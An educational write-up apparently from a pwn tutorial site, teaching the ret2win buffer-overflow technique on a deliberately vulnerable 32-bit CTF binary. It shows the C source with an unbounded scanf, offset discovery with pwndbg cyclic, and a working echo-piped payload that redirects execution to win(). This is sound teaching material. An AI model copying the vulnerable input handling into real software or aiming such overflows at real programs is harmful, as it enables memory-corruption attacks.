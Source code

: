 ```yaml
---
description: Most common challenge
---
```


# ret2win

{% file src="../../.gitbook/assets/ret2win.zip" %}

A ret2win technique is exactly what it sounds like, 'return to win'. Meaning we find a way to exploit the system and redirect the return address to our function of choice. This might be `win()` or something similar like `flag()` .

In the previous topic, we learned that we could overwrite variables to the value that we desired. Now, we will be overwriting return addresses.

Let us begin :)

***

### 1. Theory

Firstly, check the type of file&#x20;

<pre><code><strong>❯ file ret2win
</strong>ret2win: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=516803899a2c7d12ad238bfafa4de3895d8c7adf, for GNU/Linux 3.2.0, not stripped
</code></pre>

It is a 32-bit binary file

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Win function
void win() {
    char buf[64];  
    FILE *f = fopen("flag.txt", "r");   

    fgets(buf, sizeof(buf), f);     
    fclose(f);

    printf("Ret2win successfull here is your flag: %s\n", buf);   
}


// Vuln function
void vuln() {
    char buffer[20];

    printf("What is your name\n> ");
    scanf("%s", buffer);   
    printf("Hey there, nice to meet ya %s\n", buffer);
}

// Main
int main() {
    vuln();
    return 0;
}
```

Observing the code above, we can notice that the `buffer` is set to hold 20 bytes. After that, `scanf` reads the input to an unknown amount of bytes which could cause a buffer overflow vulnerability.

We can also observe that there is a `win()` function that we would want to call to print the flag.

This is the flow of our program right now:

<figure><img src="../../.gitbook/assets/ret2win_visual.png" alt=""><figcaption><p>Current program flow</p></figcaption></figure>

But what we want is something like this:

<figure><img src="../../.gitbook/assets/ret2win_desired.png" alt=""><figcaption><p>Redirect to win</p></figcaption></figure>

Okay now that we have understood that, let's get to actually exploit it ourselves

***

### 2. Finding offset

<pre class="language-markdown"><code class="lang-markdown"><strong>❯ ./ret2win
</strong>
What is your name
> ineedsomesleep
Hey there, nice to meet ya ineedsomesleep
</code></pre>

The program outputs our name. Let's try inputting more than 20 bytes of input

<pre><code><strong>❯ ./ret2win 
</strong>
What is your name
> AAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hey there, nice to meet ya AAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    60817 segmentation fault  ./ret2win
</code></pre>

We encountered a <mark style="color:red;">segfault</mark> where we are trying to access memory where we are not allowed to. Now, the goal, is to find the right padding (<mark style="color:green;">offset</mark>) to fill the buffer and reach the instruction pointer (EIP register) which is where the control flow happens. If we <mark style="color:green;">control the EIP</mark> we can control the direction of the program.

We can manually try to guess the number of 'A's needed to fill the buffer and leak to EIP but it is not efficient. That is why we are going to use a plugin to make our lives easier.&#x20;

{% content-ref url="../gdb-plugins.md" %}
[gdb-plugins.md](../gdb-plugins.md)
{% endcontent-ref %}

All of the tools has the same function but different commands. I personally, will be using pwndbg.

We can start by starting gdb with the binary

<pre><code><strong>❯ gdb ret2win 
</strong></code></pre>

Next we enter this command as it will generate a sequence of 4-byte string to find the offset within the EIP

<pre><code><strong>pwndbg> cyclic 50
</strong>aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
</code></pre>

Copy the long string and run the program

<pre><code><strong>pwndbg> r
</strong>Starting program: /home/mfkrypt/pwn_blog/ret2win/ret2win 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your name
> 
</code></pre>

Paste it in and enter

```
What is your name
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

Notice this part and focus on the EIP

```
EAX  0x4e
EBX  0x61616167 ('gaaa')
ECX  0
EDX  0
EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
ESI  0xffffcfbc —▸ 0xffffd1cf ◂— 'CLUTTER_IM_MODULE=ibus'
EBP  0x61616168 ('haaa')
ESP  0xffffcef0 ◂— 'jaaakaaalaaama'
EIP  0x61616169 ('iaaa')
```

We can see it is filled with the sequence. Now, copy the sequence and use this to find the location of the offset

<pre><code><strong>pwndbg> cyclic -l iaaa
</strong>Finding cyclic pattern of 4 bytes: b'iaaa' (hex: 0x69616161)
Found at offset 32
</code></pre>

We have found it. Meaning we need to input 32 bytes of junk and then the address of the `win()`&#x20;

***

### 3. Finding address of `win()`

Exit gdb and run it again, but this time use this command to find the available functions and addresses

<pre><code><strong>pwndbg> info functions
</strong></code></pre>

find `win()` address

```
0x080491a6  win
```

Perfect, now we have all the components we need to launch our exploit

<figure><img src="../../.gitbook/assets/ret2win_final.png" alt=""><figcaption></figcaption></figure>

***

### 4. Exploit

Similar to the last topic we will be echoing our input, but before that remember it is a 32-bit binary. Which means we need to convert the address into <mark style="color:green;">little-endian</mark>

```
\xa6\x91\x04\x08
```

Launch the payload&#x20;

<pre><code><strong>❯ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" | ./ret2win
</strong>
What is your name
> Hey there, nice to meet ya AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Ret2win successfull here is your flag: flag{eazy_ret2win}

[1]    224009 done                echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" | 
       224010 segmentation fault  ./ret2win
</code></pre>

BOOM!, we called the win() function. Congrats if you did it ;)
